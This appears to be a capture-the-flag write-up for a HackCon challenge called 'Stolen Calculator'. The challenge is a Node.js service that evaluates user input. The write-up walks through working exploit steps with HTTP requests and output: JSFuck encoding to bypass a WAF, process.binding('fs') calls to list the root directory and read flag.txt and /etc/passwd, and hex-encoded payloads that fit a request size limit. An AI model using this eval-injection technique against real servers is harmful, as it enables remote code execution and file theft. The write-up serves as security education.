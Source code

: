 # Stolen Calculator - PWN (HackCon ctf)

Description: 
### I stole this calculator from someone and made some changes because I am the plagiarism god. Bow before me now. btw wanna try it: http://defcon.org.in:9080/ Hint: This is a pwn challenge

Here we have calculator:


![](http://s016.radikal.ru/i336/1708/c3/ba35c0dd3e53.png)

If we look at calculator source code, we will see hardcoded url : 
``` urll = "http://defcon.org.in:10300/" + encodeURIComponent( strrr ); ```
But this code will never run, because there was a mistake in js file. So lets try request  this url in burp:

![](http://s019.radikal.ru/i618/1708/32/98b0f49eb8f4.png)

If we try to ``` GET /1+1 ``` we will receive 
```HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 1
ETag: W/"1-2kuSN7rMzfGcB2DKt67EqDWQELA"
Date: Wed, 30 Aug 2017 11:03:43 GMT
Connection: close

2
```

If we request some string, we will get 
```HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 3
ETag: W/"3-6zXDIdaZfDRIgpYriqHNCTmxI+E"
Date: Wed, 30 Aug 2017 11:05:08 GMT
Connection: close

err 
```
We can notice that there is eval node.js on other side by sending ``` $ ```
```
HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Content-Security-Policy: default-src 'self'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 965
Date: Wed, 30 Aug 2017 11:06:21 GMT
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: $ is not defined<br> &nbsp; &nbsp;at eval (eval at &lt;anonymous&gt; (/bf.js:21:17), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at /bf.js:21:17<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at param (/node_modules/express/lib/router/index.js:354:14)<br> &nbsp; &nbsp;at param (/node_modules/express/lib/router/index.js:365:14)<br> &nbsp; &nbsp;at Function.process_params (/node_modules/express/lib/router/index.js:410:3)</pre>
</body>
</html>
```
So WAF is blocking any string we send, but if send ``` ({}) ``` we will receive 
``` HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 15
ETag: W/"f-wdRP8Dr/E3KFbCgYVPRU4uHRW3w"
Date: Wed, 30 Aug 2017 11:08:24 GMT
Connection: close

[object Object]
```
So lets try to use JSFuck to bypass this WAF. We can convert any javascript to JSFuck with help of http://www.jsfuck.com . If we send ``` return  process.argv ```
, in JSFuck it will look like ``` GET /[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]..... ``` and so on.
We will receive ``` /usr/local/bin/node,/bf.js ```. We have RCE. 

We cant send ```require``` because it is not defined. But we can use ``` process.binding ``` instead to read/write.
But we have strong restriction in node.js. We can send get request no larger than 80kb. And if we try to send ```buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer ``` coverted to JSFuck , it will be 93369 bytes. I tried somehow to compress it, but length was still >85000.

The solution here is to use base64 or hex encode/decode and use ``` process.binding('fs').readdir('/')``` in js. Base64 will not work because there are a lot of letters in encoding , and they will be converted in larger pieces.
Convert ``` d=process.binding('fs').readdir('/', 0, 0600);d; ``` to ascii hex. We will get ``` 643d70726f636573732e62696e64696e672827667327292e7265616464697228272f272c20302c2030363030293b643b```
Convert ``` var a = new Buffer("643d70726f636573732e62696e64696e672827667327292e7265616464697228272f272c20302c2030363030293b643b", "hex").toString();b = eval(a.toString()); return b``` to JSFuck and we will get 47651 chars. If we send them, we will get responce 

``` HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 152
ETag: W/"98-P8Y7q+l1+xsDl9SL2vRfvqsKG3o"
Date: Wed, 30 Aug 2017 11:33:54 GMT
Connection: close

.dockerenv,bf.js,bin,boot,dev,etc,flag.txt,home,lib,lib64,media,mnt,node_modules,opt,package-lock.json,proc,root,run,sbin,srv,startup.sh,sys,tmp,usr,var
```
Now we must read flag.txt using ```process.binding('fs').open('flag.txt', 0, 0600)```. 

## POC: 
```GET /JSFuckConvert(var a = new Buffer("627566666572203d204275666665722e616c6c6f63556e736166652838313932293b2070726f636573732e62696e64696e672827667327292e726561642870726f636573732e62696e64696e672827667327292e6f70656e2827666c61672e747874272c20302c2030363030292c206275666665722c20302c2034303936293b2020627566666572", "hex").toString();b = eval(a.toString()); return b)```

![](http://s019.radikal.ru/i642/1708/c5/27928aead910.png)
